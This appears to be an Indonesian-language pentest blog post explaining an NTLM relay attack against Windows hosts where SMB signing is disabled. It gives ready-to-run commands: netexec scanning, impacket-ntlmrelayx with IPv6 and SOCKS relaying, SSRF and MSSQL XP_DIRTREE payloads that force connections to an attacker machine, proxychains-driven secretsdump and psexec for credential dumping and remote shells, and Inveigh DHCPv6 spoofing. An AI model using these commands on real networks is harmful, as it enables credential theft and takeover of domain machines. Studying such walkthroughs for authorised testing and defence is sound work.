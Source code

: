 ```yaml
---
title: NTLM Relay IPv6 Attack
author: "novran"
date: 2024-11-23 00:00:00 +0700
categories: [Active Directory Pentest, Windows Pentest]
tags: [Active Directory Pentest, Windows Pentest]
mermaid: true
image:
  path: /images/2024-11-23-ntlm-relay-attack-banner.png
  alt: NTLM Relay Attack
---
```


Ketika pengaturan `Signing` pada protokol SMB (Server Message Block) memiliki pengaturan `False` atau dinonaktifkan, maka data yang dikirim antar klien dan server tidak diverifikasi. Sehingga komputer yang menjalankan konfigurasi **SMB Signing False** akan rentan terhadap serangan **NTLM Relay**.

## Let's Do It

```bash
netexec smb <IP_SEGMENT>/24 --gen-relay-list vuln-ntlm.txt
```

![Netexec Detect All Vulnerable Hosts](/images/2024-11-23-ntlm-relay-attack-vulnerable-host.png)

### 1. Wait and See or Trigger It

```bash
sudo impacket-ntlmrelayx -tf vuln-ntlm.txt -smb2support --ipv6 -debug
```

![NTLMRelayX](/images/2024-11-23-ntlm-relay-attack-ntlmrelayx.png)

Pada dasarnya, karena ini adalah serangan Man-in-the-Middle, maka **kalian hanya perlu menunggu saja** dan berharap **ada Host yang melakukan Broadcast** melalui LLMNR/mDNS.

> Namun, jika kalian menemukan kerentanan yang bisa di-**chaining**, seperti SSRF atau mendapatkan akses MSSQL, kalian bisa langsung men-trigger-nya secara langsung, dengan cara mengakses ke mesin kalian secara langsung (menggunakan protokol SMB).

**Trigger It!**

Server-Side Request Forgery.

```
file://<ATTACKER_MACHINE>/attack
```

MSSQL Query.

```
XP_DIRTREE '\\<ATTACKER_MACHINE>\attack', 1, 1
```

**Credential Dumped!**

Jika berhasil, maka `impacket-ntlmrelayx` yang dijalankan tadi akan menghasilkan output seperti ini.

![SAM Pwnd!](/images/2024-11-23-ntlm-relay-attack-sam-pwnd.png)

#### Optional: Create Relay as Proxy Connection (Socks)

```bash
sudo impacket-ntlmrelayx -tf vuln-ntlm.txt -smb2support --ipv6 -debug -socks
```

```bash
## add to /etc/proxychains4.conf
socks4 127.0.0.1 1080
```

**Dengan ini, kita bisa mengeksekusi mesin target menggunakan...**

```bash
## Remote Credential Dump
proxychains4 -q impacket-secretsdump 'domain.local/anyuser$':'wrongpass'@<TARGET_MACHINE>
```

Atau.

```bash
## Run Shell Session
proxychains4 -q impacket-psexec 'domain.local/anyuser$':'wrongpass'@<TARGET_MACHINE>
```

### 2. Spoof via Compromised Machine

Setelah membaca dari sumber [ini](https://cloud.tencent.com/developer/article/1956335), Kita juga dapat melakukannya meskipun kondisinya itu _cross-network_, dengan cara melakukan Spoofing menggunakan [Inveigh](https://github.com/Kevin-Robertson/Inveigh/releases/tag/v2.0.11) (dengan catatan, Spoof melalui mesin yang sudah _compromised_).

```powershell
.\Inveigh.exe -DHCPv6 Y -SpooferIP <ATTACKER_MACHINE>
```

Kurang lebih gambarannya akan seperti ini.

![Relay to SpoofIP](/images/2024-11-23-ntlm-relay-attack-by-spoof-ip.png)
